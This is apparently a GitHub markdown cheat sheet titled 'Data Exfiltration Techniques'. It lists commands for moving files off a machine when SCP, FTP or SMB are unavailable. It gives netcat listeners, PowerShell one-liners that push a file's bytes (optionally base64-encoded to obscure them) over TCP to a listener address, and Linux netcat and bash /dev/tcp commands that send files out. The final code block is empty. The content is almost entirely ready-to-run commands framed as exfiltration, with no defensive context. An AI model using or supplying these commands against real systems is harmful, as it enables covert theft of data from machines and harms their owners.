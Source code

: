 # Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.

***

### Windows To Linux

##### If you want to send the raw bytes:

###### Setup NetCat listener on Linux host:

```
nc -lp %ListeningPort% > file.ext
```

###### On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $Length = [System.BitConverter]::GetBytes($FileContents.Length); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close()
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### Setup NetCat listener on Linux host:

```
nc -lp %ListeningPort% | base64 -d > file.ext
```

###### On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

***

### Linux To Linux

#### Send file from remote client to host machine:

###### Setup NetCat listener on Linux host:

```
nc -lp port > file.ext
```

###### On the Linux client connect back with NetCat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < file.ext
```

###### If NetCat is unavailable, on the Linux client connect back with bash:

```
cat file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

#### Retrieve file from host to client:

###### Setup NetCat listener on Linux host:

```
nc -q 0 -lp %ListenerPort% < file.ext
```

###### On the Linux client connect back with NetCat:

```
nc %ListenerAddress% %ListeningPort% > file.ext
```

###### If NetCat is unavailable, on the Linux client connect back with bash:

```

```
